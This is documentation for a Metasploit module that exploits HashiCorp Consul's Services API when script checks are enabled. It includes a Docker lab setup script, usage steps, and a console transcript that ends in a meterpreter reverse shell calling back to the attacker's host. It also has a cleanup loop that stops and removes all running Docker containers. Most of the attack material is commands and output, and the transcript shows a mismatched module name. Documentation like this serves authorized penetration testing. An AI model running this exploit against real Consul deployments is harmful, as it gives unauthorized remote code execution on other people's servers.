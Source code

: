 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `-enable-script-checks` configuration flag set to true, or running version 0.9.0 or earlier, with Consul API available on an interface that can be accessed over the network.

### Description

This module exploits Hashicorp Consul's Services API to gain remote command execution on a Consul node.

The exposure of the Services API depends on the `enable_script_checks` option. This option is opt-in for Consul nodes operators.

#### References

* Consul Services API - https://www.consul.io/api/agent/service.html
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield
* Protecting Consul from RCE Risk in Specific Configurations - [https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
docker run -d --name=consul_bootstrap_server consul agent -server -client=172.17.0.1 -bootstrap -data-dir /tmp/consul
sleep 2

docker run -d --name=consul_server_1 consul agent -server -client=172.17.0.2 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.2

docker run -d --name=consul_server_2 consul agent -server -client=172.17.0.3 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.3

docker run -d -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true}' consul agent -ui -client=172.17.0.4 -retry-join=172.17.0.1

sleep 4
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="172.17.0.1:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
3ca869f66e7dda89f7e239a8d2ae6e477af699a20c90f2d1e2043dc90bdfa78c
fa16999754063a23687809c9dbdbabb5e8d45a54652e6e2023c67fd933d83826
Successfully joined cluster by contacting 1 nodes.
ecc11744530e63e8d9cb349e98811e2b88d67dd09a81f7a7e8fee129b72d17cf
Successfully joined cluster by contacting 1 nodes.
949d81b0c47b004d456b1db8c5452bbebe08fe99127f0bc365d417a56fada540
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
3ca869f66e7d  172.17.0.1:8301  alive   server  1.0.6  2         dc1  <all>
ecc11744530e  172.17.0.3:8301  alive   server  1.0.6  2         dc1  <all>
fa1699975406  172.17.0.2:8301  alive   server  1.0.6  2         dc1  <all>
949d81b0c47b  172.17.0.4:8301  alive   client  1.0.6  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your running docker containers** (so be careful if you use docker containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps | grep -v CONTAINER | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_service_exec`
  4. Do: `set RHOST 172.17.0.4`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_service_exec
msf5 exploit(multi/misc/consul_service_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_service_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_service_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating service 'BBBDX'
[*] Service 'BBBDX' successfully created.
[*] Waiting for service 'BBBDX' script to trigger
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Removing service 'BBBDX'
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
